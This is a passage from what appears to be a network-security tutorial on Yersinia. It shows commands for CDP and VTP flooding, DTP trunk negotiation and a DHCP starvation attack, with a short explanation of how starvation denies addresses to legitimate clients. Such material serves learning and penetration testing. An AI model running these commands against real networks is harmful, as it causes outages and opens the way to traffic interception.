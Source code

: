 #### 3. CDP (Cisco Discovery Protocol) Attacks

```bash
# CDP flooding
sudo yersinia cdp -attack 1
```

#### 4. VTP (VLAN Trunking Protocol) Attacks

```bash
# VTP flooding
sudo yersinia vtp -attack 1

# Create VTP domain
sudo yersinia vtp -attack 2
```

#### 5. DTP (Dynamic Trunking Protocol) Attacks

```bash
# Negotiate trunk
sudo yersinia dtp -attack 1
```

### Example: DHCP Starvation and Spoofing

This example demonstrates a complete DHCP attack scenario using Yersinia:

1. **Reconnaissance to identify the DHCP server**:

```bash
# Capture DHCP traffic
sudo tcpdump -i eth0 -n port 67 or port 68

# From another terminal, request a new lease
sudo dhclient -r eth0
sudo dhclient eth0
```

2. **Launch a DHCP starvation attack**:

```bash
# Start Yersinia in interactive mode
sudo yersinia -I

# Select DHCP protocol
dhcp

# Launch a DHCP starvation attack
attack 1
```

The DHCP starvation attack works by:
- Creating multiple fake MAC addresses
- Sending DHCP DISCOVER messages from each fake MAC
- Consuming all available IP addresses in the DHCP pool
- Preventing legitimate clients from obtaining IP addresses
